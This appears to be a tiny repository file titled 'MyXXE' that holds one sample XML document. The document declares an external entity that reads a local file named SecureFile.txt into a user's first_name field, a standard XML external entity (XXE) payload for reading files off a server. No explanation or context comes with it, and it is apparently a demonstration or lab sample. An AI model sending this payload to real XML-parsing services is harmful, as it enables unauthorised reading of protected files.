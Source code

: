 # MyXXE

<?xml version="1.0"?>
<!DOCTYPE user [
    <!ENTITY xxe SYSTEM "file:///...SecureFile.txt">
]>
<user>
    <first_name>&xxe;</first_name>
    <last_name>Belson</last_name>
</user>
